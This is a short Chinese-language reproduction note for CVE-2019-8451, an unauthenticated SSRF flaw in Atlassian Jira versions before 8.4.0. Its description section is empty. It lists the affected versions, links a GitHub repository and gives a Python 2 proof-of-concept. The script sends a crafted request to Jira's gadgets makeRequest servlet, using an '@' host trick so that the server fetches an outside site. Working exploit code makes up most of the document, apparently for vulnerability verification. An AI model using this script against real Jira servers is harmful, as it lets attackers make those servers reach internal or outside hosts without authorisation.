 （CVE-2019-8451）Atlassian Jira 未授权SSRF漏洞验证
==================================================

一、漏洞简介
------------

二、影响范围
------------

Atlassian Jira \< 8.4.0

三、复现过程
------------

![](./resource/(CVE-2019-8451)AtlassianJira未授权SSRF漏洞验证/media/rId24.png)

> https://github.com/ianxtianxt/CVE-2019-8451

    #coding:utf-8
    import requests

    host = 'http://xx.xx.xx.xx:8080'
    header = {
                            'X-Atlassian-Token': 'no-check',
                            'Connection': 'close'
                    }

    url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
    html = requests.get(url = url,headers = header)
    print html.text
